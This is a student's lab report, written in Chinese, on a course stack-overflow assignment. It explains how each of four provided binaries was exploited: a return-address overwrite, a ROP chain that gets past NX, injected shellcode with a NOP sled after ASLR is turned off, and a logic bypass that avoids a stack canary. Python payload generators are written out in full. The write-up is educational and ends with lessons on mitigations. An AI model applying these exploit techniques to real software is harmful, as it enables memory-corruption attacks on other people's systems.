







---

# 栈溢出攻击实验报告

## 题目解决思路

### Problem 1: 基础栈溢出攻击
- **分析**：
  通过反汇编 `p1.asm` 分析 `func` 函数。该函数调用了危险函数 `strcpy`，将输入内容拷贝到位于栈上 `rbp-0x8` 的缓冲区中。由于 `strcpy` 不检查输入长度，我们可以通过构造超长字符串来覆盖返回地址。
  栈结构分析：
  1. 缓冲区空间：8 字节（`rbp-0x8` 到 `rbp`）
  2. 已保存的 `%rbp` 指针：8 字节
  因此，填充 16 字节的垃圾数据后，接下来的 8 字节将覆盖返回地址。目标函数 `func1` 的起始地址为 `0x401216`。

- **解决方案**：
  编写 `problem1.py` 生成攻击载荷：
  ```python
  import struct
  # Padding: 8字节缓冲区 + 8字节旧rbp = 16字节
  padding = b"A" * 16
  # 目标跳转地址: func1 (0x401216)
  target_addr = struct.pack("<Q", 0x401216)
  payload = padding + target_addr
  
  with open("ans1.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：
  执行 `./problem1 ans1.txt` 后，程序成功跳转并输出：
  

---

### Problem 2: ROP 攻击 (绕过 NX 保护)
- **分析**：
  本题开启了 NX（栈不可执行）保护，因此无法在栈上执行代码。`func2` 函数（地址 `0x401216`）需要第一个参数 `%rdi` 等于 `0x3f8` (1016) 才能通关。
  我们需要利用 **ROP (Return Oriented Programming)** 技术。通过反汇编找到一段名为 `pop_rdi` 的代码片段（Gadget），地址为 `0x4012c7`。该片段执行 `pop %rdi; ret`，可以将栈上的数据弹出到寄存器并返回。

- **解决方案**：
  构造 ROP 链：`Padding(16字节)` + `pop_rdi地址` + `参数值0x3f8` + `func2地址`。
  编写 `problem2.py`：
  ```python
  import struct
  padding = b"A" * 16
  pop_rdi = struct.pack("<Q", 0x4012c7)
  arg1 = struct.pack("<Q", 0x3f8)
  func2_addr = struct.pack("<Q", 0x401216)
  
  payload = padding + pop_rdi + arg1 + func2_addr
  with open("ans2.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：
  

---

### Problem 3: Shellcode 注入
- **分析**：
  本题关闭了 NX 保护但存在长度限制。目标是让程序输出幸运数字 `114` (十六进制 `0x72`)。由于程序中没有现成的传参函数，我们需要手动编写一段 Shellcode 注入到栈中执行。
  关键步骤：
  1. 关闭系统内核 ASLR：`sudo sysctl -w kernel.randomize_va_space=0`。
  2. 使用 GDB 确定缓冲区 `rbp-0x20` 在内存中的地址为 `0x7fffffffd880`（以实际测量为准）。
  3. 构造 Shellcode：设置 `%rdi = 0x72`，随后跳转到输出函数。

- **解决方案**：
  编写 `problem3.py`。为了提高成功率，在 Shellcode 前加入了 NOP Sled：
  ```python
  import struct
  # GDB 测得的缓冲区地址
  buffer_addr = 0x7fffffffd880  
  # Shellcode (16字节): mov rdi, 0x72; mov rax, 0x401216; jmp rax
  shellcode = b"\x48\xc7\xc7\x72\x00\x00\x00\x48\xc7\xc0\x16\x12\x40\x00\xff\xe0"
  # Padding 到达返回地址 (40字节 = 32字节buf + 8字节rbp)
  padding = b"\x90" * (40 - len(shellcode)) 
  payload = shellcode + padding + struct.pack("<Q", buffer_addr)
  
  with open("ans3.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：
  由于环境变量影响，在 GDB 内部验证攻击：
  
   
---

### Problem 4: Canary 保护机制与逻辑绕过
- **分析**：
  **Canary 保护机制**：在汇编代码 `func` 函数开头，可以看到 `mov %fs:0x28, %rax` 和 `mov %rax, -0x8(%rbp)`，这表示在栈帧中插入了一个随机的“金丝雀”值。在函数返回指令 `ret` 之前，程序通过 `sub %fs:0x28, %rax` 检查该值是否被修改。如果溢出覆盖了返回地址，必然会破坏 Canary 值，导致程序调用 `__stack_chk_fail` 退出。
  
  **绕过思路**：本题提示“不需要写代码”。通过逆向分析 `func` 发现，程序对输入数值进行循环减法校验。如果输入为 `-1`（补码 `0xffffffff`）(在图中13df位置)，在 32 位运算下满足 `初始值 - 0xfffffffe == 1` 的校验逻辑，从而直接触发通关分支，无需破坏栈结构，完美避开了 Canary 检查。

- **解决方案**：
  直接运行 `./problem4`，在提示输入原石的环节手动输入 `-1`。

- **结果**：
   
    
     

---

## 思考与总结
通过本次实验，我深刻理解了计算机系统中函数调用栈的运作机制。
1. **安全性**：`strcpy`, `gets` 等函数是极其危险的，在开发中必须使用带长度限制的版本。
2. **防护手段**：现代系统通过 NX 位禁止栈执行代码，通过 ASLR 随机化内存布局，通过 Canary 监控栈完整性。
3. **攻击思维**：安全对抗是多维度的，当内存防护严密时，通过逆向分析寻找程序的逻辑漏洞（如 Problem 4）往往能起到奇效。

## 参考资料